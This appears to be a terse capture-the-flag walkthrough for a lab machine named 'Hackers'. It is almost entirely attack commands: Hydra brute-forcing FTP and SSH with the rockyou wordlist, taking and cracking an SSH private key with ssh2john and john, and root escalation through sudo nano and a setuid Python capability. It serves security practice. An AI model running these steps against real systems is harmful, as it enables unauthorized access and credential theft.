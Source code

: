 # Hackers 
## Step 1
`ftp $IP` anonymous login *optional*
### Gcrawford Path
		1. `hydra ftp://$IP -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64`
		2. `ftp $IP` login with `gcrawford` and get `id_rsa` and `business.txt`
		3. `ssh2john.py id_rsa > ssh_hash.txt`
		4. `john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
			5. `ssh2john.py id_rsa > ssh_hash.txt && john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
		6. `ssh -i id_rsa -l gcrawford $IP `
		7. `sudo nano`
		8. CTRL+R, CTRL+X
		9. `reset; sh 1>&0 2>&0`
### Rcampbell Path
	1. `hydra ssh://$IP -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64` or `msfconsole` `use auxiliary/scanner/ssh/ssh_login`
	2. `getcap -r / 2>/dev/null` *optional*
	3. `python -c 'import os,pty; os.setuid(0);pty.spawn("/bin/bash")'`
